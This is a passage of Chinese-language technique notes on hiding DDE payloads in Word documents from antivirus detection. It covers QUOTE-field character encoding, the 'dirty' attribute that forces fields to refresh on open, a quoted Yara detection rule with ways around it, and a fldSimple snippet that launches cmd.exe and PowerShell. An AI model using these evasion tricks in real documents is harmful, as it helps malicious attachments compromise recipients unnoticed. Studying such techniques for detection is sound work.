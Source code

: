 #### payload混淆

现在杀毒软件会存在DDE相关的yara检测规则，因此出现了一些绕过手段，下面是一些样本

[Macroless DOC malware that avoids detection with Yara rule – Furoner.CAT](https://furoner.wordpress.com/2017/10/17/macroless-malware-that-avoids-detection-with-yara-rule/)

##### QUOTE域

文章中发现一种方法：使用[Field Code](https://support.microsoft.com/en-us/office/list-of-field-codes-in-word-1ad6d91a-55a7-4a8d-b535-cf7888659a51)进行混淆。这里使用了QUOTE域，注意，域在word理是可以嵌套的

此外，QUOTE可以将数字转换为字母，因此下列payload

```
{SET c "{QUOTE 65 65 65 65}"}
{SET d "{QUOTE 71 71 71 71}"}
{DDE {REF c} {REF d}}
```

最终的效果类似于

```
{DDE "AAAA" "GGGG"}
```

##### Dirty Links

虽然DDEAUTO理论上会在文档打开时自动刷新域内容，但不是所有域都会被刷新，因此需要额外指定一个属性。以压缩包形式打开docx文件，并修改document.xml中所有fldChar标签的dirty属性，该属性可以用于标记一个域的内容已经不再是最新的内容

```
<w:fldChar w:fldCharType="begin" w:dirty="true">
```

##### Hiding DDE

###### Yara

要隐藏DDE域，就需要对查杀规则进行了解。最早Nviso Labs使用下列Yara规则进行查杀

```
/<w:fldChar\s+?w:fldCharType="begin"\/>.+?\b[Dd][Dd][Ee]\b.+?<w:fldChar\s+?w:fldCharType="end"\/>/
```

但该Yara可以被多行的混淆绕过，此外简单地对fldChar标签添加一些属性，如上面使用的dirty属性，就可以轻易地绕过上述Yara规则

###### oletools

作者又发现使用oletools可以直接分析出DDE执行的代码，因此作者找到了Office Open XML格式中除fldChar外的另一个用于引用的域标签fldSimple

```
<w:fldSimple w:instr='DDE "C:\\Windows\\System32\\cmd.exe" "/k powershell.exe"' w:dirty=""true>
    <w:r>
        <w:t>Pew</w:t>
    </w:r>
</w:fldSimple>
```

###### 副作用
